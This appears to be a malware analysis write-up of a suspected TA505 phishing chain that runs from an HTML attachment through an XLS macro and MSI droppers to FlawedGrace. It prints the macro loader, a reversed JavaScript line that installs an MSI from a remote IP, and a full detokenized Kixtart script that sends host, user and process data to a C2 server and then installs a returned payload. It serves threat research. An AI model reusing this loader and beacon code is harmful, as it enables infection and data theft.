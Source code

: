 #Summary
Suspected TA505 Phish
Attack flow:
Phish -> HTML attachment /w link -> XLS /w macro -> MSI (Kixtart) -> MSI (Rebol) -> FlawedGrace

#Email
Sender: 	admin@commaxdiafon.com
Subject:  	Claim Processing 20210925
Received: 	from 196-60win.webimhosting.com (HELO webimhosting.com) ([217.195.196.60])

Contains an html attachment which contains a link to download a malicious XLS hxxps://cdn-8846-sharepoint-office.com/CL09302021_00137[.]xls 

#XLS (deaad3ea1c708cd99e41c4043169aa4d)
- Macro
    Function Auto_Open()
        Dim a As New ScriptControl
        a.Language = ActiveWorkbook.BuiltinDocumentProperties("Subject").Value
        a.AddCode (ActiveWorkbook.BuiltinDocumentProperties("Comments").Value)
    End Function
    
- Comments: eval('})"53.502.831.551//:ptth"(tcudorPllatsnI;2=leveLIU{))"rellatsnI.rellatsnIswodniW"(tcejbOXevitcA wen(htiw'.split('').reverse().join(''))
- Reversed: with(new ActiveXObject("WindowsInstaller.Installer")){UILevel=2;InstallProduct("hxxp://155.138.205.35")}

- Pulls down and executes MSI 

#MSI (84ec41afdc49c2ee8dff9ba07ba5c9a4)
- contains benign kixtart engine (named svchost.exe) and an encrypted and tokenized kixtart script (named svchost.bin)
	
#Kixtart Script (a176738655f7bd7270aa086db0f35451)
- Encrypted and tokenized 
- Developed a python script to decrypt and detokenize: https://github.com/jhumble/Kixtart-Detokenizer
- Full cleaned up kixtart script below
	
I wasn't able to coerce the C2 into giving me an additional payload, but other reporting indicates that it leads to another MSI containing a Rebol script, which downloads and executes FlawedGrace

# Detokenized Script
```
Function base64($string,$mode,$file)
	DIM $xml_object,$xml_doc,$stream_object,$strxml,$rc
	$xml_object =  createobject("MSXML2.DOMDocument.3.0") 
	if $mode
		$strxml = "<B64DECODE xmlns:dt="urn:schemas-microsoft-com:datatypes" dt:dt="bin.base64">" + $string + "</B64DECODE>"
		$rc = $xml_object.loadxml($strxml) 
		$base64 = $xml_object.selectsinglenode("B64DECODE") .nodetypedvalue
		if @errorexit (@error & )  endif 
		if $file
			$stream_object =  createobject("ADODB.Stream") 
			if @errorexit (@error & )  endif 
			$rc = $stream_object.open
			if @errorexit (@error & )  endif 
			$stream_object.type = 1
			$rc = $stream_object.write($base64) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
			$stream_object.savetofile($file,2) 
			exit (@error & ) 
		endif 
	else
		$stream_object =  createobject("ADODB.Stream") 
		if @errorexit (@error & )  endif 
		$rc = $stream_object.open
		if @errorexit (@error & )  endif 
		if  len($file)  and 0 =  exist($file) exit 2 endif 
		if $file
			$stream_object.type = 1
			$stream_object.loadfromfile($file) 
			if @errorexit (@error & )  endif 
		else
			$stream_object.type = 2
			$stream_object.charset = "iso-8859-1"
			$rc = $stream_object.writetext($string) 
			$stream_object.position = 0
			$stream_object.type = 1
			$stream_object.position = 0
		endif 
		$string = $stream_object.read
		$xml_doc = $xml_object.createelement("base64") 
		$xml_doc.datatype = "bin.base64"
		$xml_doc.nodetypedvalue = $string
		$base64 =  cstr($xml_doc.text) 
		$stream_object = ""
		$xml_doc = ""
		$xml_object = ""
	endif 
EndFunction

$wmicoll =  getobject("WinMgmts:root/cimv2") .execquery("Select * FROM Win32_Process") 

For each $wmiobj in $wmicoll
	$proccess = $proccess + "," + $wmiobj.name
Next

$http =  createobject("microsoft.xmlhttp") 
$http.open("GET","http://45.79.239.23/version.php?data=" + base64(@domain + ":" + @hostname + ":" + @userid + "|" + $proccess) ,Not 1) 
$http.send

if $http.responsebody <> 0
	$msi =  createobject("WindowsInstaller.Installer") 
	$msi.uilevel = 2
	$msi.installproduct($http.responsetext) 
endif```


